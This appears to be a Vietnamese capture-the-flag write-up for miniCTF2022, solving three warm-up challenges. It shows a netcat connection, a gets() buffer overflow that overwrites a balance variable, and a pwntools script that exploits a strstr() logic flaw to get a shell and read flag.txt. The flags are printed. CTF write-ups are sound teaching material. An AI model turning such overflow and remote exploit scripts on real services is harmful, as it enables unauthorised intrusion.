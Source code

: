 # Write Up miniCTF2022

# 1. NetCat

## Category
Warm Up

## Question
Can you connect the netcat ? 
>nc 174.138.21.217 3136

## Solution
Chúng ta sẽ kết nối vào `netcat` ngay lập tức flag sẽ hiện ra.

```
halston in ~ λ nc 174.138.21.217 3136
                              NETCAT
                            /\_____/\
                           /  o   o  \
                          ( ==  ^  == )
                          ))         (
                          (           )
                         ( (  )   (  ) )
                        (__(__)___(__)__)

Here your flag: ISPCTF{Th1s_1s_n3t_c4t}
```

## Flag
`ISPCTF{Th1s_1s_n3t_c4t}`

# 2. abcbof

## Category
Warm Up

## Question
>nc 174.138.21.217 3137

## Solution
Khi tải source code về ta có thể nhìn thấy có lỗi tại gets() vì khi nhập vào sẽ không kiểm soát số lượng kí tự được nhập
```
int main(){   
    long long money = 0;
    puts("==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================");
    puts("| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Thoát Game |  5. Tài Khoản |");
    puts("======================================================================================");
    puts("Hãy nhập tên người chơi:");
    char name[30];
    gets(name);
```
Vì vậy khi ta nhập 1 dãy thật dài thì chương trình sẽ ghi đè lên biến money và làm thay đổi giá trị của biến.
```
halston in ~ λ nc 174.138.21.217 3137



                                         I
                                      II   II
                                   II         II
                                ,I               II
                              I,       IIIIII       II
                           II       IIIIIIIIIIII       II
                        II       IIIIIIIIIIIIIIIIII#      II
                     II        IIIIIIIIIIIIIIIIIIIIIII       II
                  II        IIIIIIIIIII       IIIIIIII  II      II
           IIIIII            IIIIIII            IIIIII  IIIII      II
           IIIII        II    IIIIIII           IIIIII  IIIIIIII      II.
            #I      I   IIII    IIIIIII         IIIIII  IIIIIIIIIII     I
                 IIIII  IIIII    IIIIIIIII     .IIIIII  IIII   IIIII    I
        IIIII  IIIIIII   IIIIII    IIIIIIIII     IIIII  IIII    IIII    I
        IIIII  #IIIIII   IIIIII       IIIIIIIII      I  IIII   IIII    I
           I    IIIIIII   IIIIII  I     IIIIIIIIIII     IIIII# IIII    I
           I     IIIIII   IIIIIII  II      IIIIIIIIII  IIIIIIIIIII    II
            I    IIIIIII   IIIIIII  III#     IIIIIII   IIIIIIIIIII    I
            I     IIIIIII   IIIIIII  IIIII  IIIIIIII  IIIIIIIIIII    I
             I     IIIIIII   IIIIIII  IIII IIIIIIII   IIIIIIIIII    II
              I     IIIIIII   IIIIIII  II IIIIIIII#  IIIIIIIIII     I
               I     IIIIIII   IIIIIIII  IIIIIIIII  *IIIIII II     I
                I     IIIIIII   IIIIIIIIIIIIIIIII   IIIIII II     I
                 I     IIIIIII   IIIIIIIIIIIIIII   IIIII* II    #I
                  I      IIIIII    IIIIIIIIIIII   IIIII  I     II
                   I.     IIIIIII    IIIIIIIII   IIIII II     I
                     I      IIIIIII   IIIIII   IIIIII I      I
                      II      IIIIII    III   IIIII        I
                        II      IIIIII      IIIIII       II
                          II      IIIIII   IIIII       II
                            II      IIIIIIIIII       II
                               II                  I
                                 III            II
                                    #II     III
                                        III


Hãy nhập tên người chơi: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello �aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn:
4

Tài khoản của bạn có 7016996765293437281 $
```
Từ đó ta có thể mua flag
```
Nhập lựa chọn của bạn:
3

Tài khoản của bạn có 7016996765293437281 $
=====================FLAG=======================
|Bạn có muốn mua FLAG với giá 1 000 000 000 $  |
|----------------------------------------------|
|         1. YES      |         2. NO          |
================================================
Lựa chọn của bạn :
1


Chúc mừng bạn đã chiến thắng
Đây là Flag của bạn:
ISPCTF{B4s1c_Buff3r_0v3rFl0w}
```
## Flag
`ISPCTF{B4s1c_Buff3r_0v3rFl0w}`

# 3. RPS

## Category
Warm Up

## Question
>nc 174.138.21.217 3138

## Solution
Đọc source code ta có thấy chương trình sử dụng `if (strstr(player_turn, loses[computer_turn]))` hàm strstr() để kiểm tra chuỗi người dùng nhập vào `player_turn` có 
trong chuỗi `loses[computer_turn]` máy tính thua không.
Nếu có sẽ trả về `true` từ đó ta có 1 lần chiến thắng.
```
if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
```
Tận dụng lỗi này ta sẽ nhập `{"rock", "paper", "scissors"}` 5 lần để có thể chiến thắng bằng payload
```
halston in ~/CTF/miniCTF2022/warmup/RPS λ cat exploit.py
from pwn import *

p = remote("174.138.21.217", 3138)

for i in range(5):
        p.recvuntil(b"Type '2' to exit the program")
        p.sendline(b"1")
        p.recvuntil(b"Please make your selection (rock/paper/scissors):")
        p.sendline(b"rock/paper/scissors")

p.interactive()
```
Run payload bằng python
```
halston in ~/CTF/miniCTF2022/warmup/RPS λ python3 exploit.py
[+] Opening connection to 174.138.21.217 on port 3138: Done
[*] Switching to interactive mode

You played: rock/paper/scissors
The computer played: rock
You win! Play again?
Congrats!!!
$ ls
bin
chall
dev
flag.txt
ld.so
lib
lib32
lib64
libc.so.6
$ cat flag.txt
ISPCTF{d0nt_m4k3_7h3_l091c4l_m1s74k3}
```

## Flag
`ISPCTF{d0nt_m4k3_7h3_l091c4l_m1s74k3}`
